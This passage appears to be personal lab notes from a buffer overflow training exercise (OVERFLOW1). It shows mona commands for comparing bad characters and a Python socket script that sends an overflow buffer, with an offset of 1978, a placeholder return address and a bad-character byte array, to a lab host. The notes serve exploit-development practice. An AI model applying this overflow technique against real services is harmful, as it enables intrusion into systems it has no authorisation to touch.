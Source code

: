 Restart and compare again, we will get a new `esp` address, we need to check it up again and use mona:

```
!mona compare -f C:\mona\oscp\bytearray.bin -a 0x01A4FA30
```

![](images/Pasted%20image%2020250529125231.png)

Got this, need to do the process all over again:

```
!mona bytearray -b "\x00\x01\x07\x08\x2e\x2f\xa0\xa1"
```

```python
import socket

ip = "10.10.199.216"
port = 1337

prefix  = "OVERFLOW1 "
offset  = 1978
overflow= "A" * offset
retn    = "BBBB"
padding = ""
payload = "\x02\x03\x04\x05\x06\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))
print("Sending test pattern...")
s.send(bytes(buffer + "\r\n", "latin-1"))
s.close()

```

```
!mona compare -f C:\mona\oscp\bytearray.bin -a 0x01CBFA30
```

![](images/Pasted%20image%2020250529125741.png)

